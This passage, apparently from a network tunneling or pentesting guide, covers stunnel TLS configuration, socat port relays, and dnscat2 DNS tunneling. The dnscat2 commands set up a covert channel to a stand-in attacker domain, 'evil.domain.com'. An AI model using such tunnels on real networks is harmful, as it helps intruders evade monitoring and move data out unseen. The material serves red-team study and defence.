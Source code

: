 
### 8.3 Stunnel: TLS Encryption Wrapper

Stunnel provides TLS encryption for arbitrary protocols:

```bash
# Server configuration (stunnel.conf)
[https]
accept = 443
connect = 80
cert = /etc/stunnel/cert.pem
key = /etc/stunnel/key.pem

# Client configuration
[https]
accept = 8080
connect = server_ip:443
```

### 8.4 dnscat2: DNS Tunneling

dnscat2 provides covert communication through DNS queries:

```bash
# Server setup
ruby dnscat2.rb evil.domain.com

# Client connection
./dnscat2 evil.domain.com

# Client with specific DNS server
./dnscat2 --dns server=8.8.8.8 evil.domain.com

# Encrypted session
ruby dnscat2.rb --security=open evil.domain.com
./dnscat2 --secret=password evil.domain.com
```

## 9. Socat: Swiss Army Knife of Network Relays
:::note
Socat must be installed on both source and destination hosts. Replace port numbers, interface addresses, and file paths as needed for your environment.
:::
Socat provides bidirectional data relay capabilities with extensive protocol support:

### 9.1 Basic Relay Configurations

```bash
# TCP port forwarding
socat TCP-LISTEN:8080,fork TCP:internal_server:80

# UDP relay
socat UDP-LISTEN:53,fork UDP:dns_server:53

# TCP to UDP conversion
socat TCP-LISTEN:53,fork UDP:dns_server:53

# Bidirectional relay with logging
socat -d -d TCP-LISTEN:8080,fork TCP:internal_server:80

# Relay with connection limits
socat TCP-LISTEN:8080,fork,max-children=10 TCP:internal_server:80
```
